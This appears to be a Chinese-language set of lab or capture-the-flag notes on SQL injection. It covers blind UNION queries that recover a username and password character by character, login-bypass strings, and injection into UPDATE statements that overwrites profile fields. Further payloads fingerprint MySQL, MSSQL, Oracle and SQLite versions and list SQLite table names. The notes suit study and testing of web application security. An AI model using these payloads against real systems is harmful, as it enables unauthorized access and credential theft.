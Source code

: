 重复此过程三次，您将发现列的 ID、用户名和密码。现在您可以使用它们来查询 **用户** 表以获取登录凭据。首先，您需要发现一个有效的用户名，您可以使用下面的有效负载：

`admin123' UNION SELECT 1,2,3 from users where username like 'a%`

  

循环遍历所有字符后，您将确认用户名 **admin**的存在。现在您已经获得了用户名。您可以专心寻找密码。下面的有效载荷向您展示了如何找到密码：

`admin123' UNION SELECT 1,2,3 from users where username='admin' and password like 'a%`

循环查看所有字符，你会发现密码是 3845。

##  SQL 注入 1：输入框非字符串
```
SELECT uid, name, profileID, salary, passportNr, email, nickName, password FROM usertable WHERE profileID=10 AND password = 'ce5ca67...'
```

```
1 or 1=1-- -
```

绕过登录


## SQL 注入 2:输入框字符串
字符型绕过
```
1' or '1'='1'-- -
```

## SQL 对 UPDATE 语句的注入攻击

可以尝试将类似于以下代码的内容注入到 nickName 和 email 字段中：

```
asd',nickName='test',email='hacked
```

将恶意负载注入 nickName 字段时，仅更新 nickName。当注入到 email 字段中时，两个字段都会更新：


确定注入点之后  判断数据库版本号

```
# MySQL and MSSQL
',nickName=@@version,email='

# For Oracle
',nickName=(SELECT banner FROM v$version),email='

# For SQLite
',nickName=sqlite_version(),email='
```

暴库

```
',nickName=(SELECT group_concat(tbl_name) FROM sqlite_master WHERE type='table' and tbl_name NOT like 'sqlite_%'),email='
```
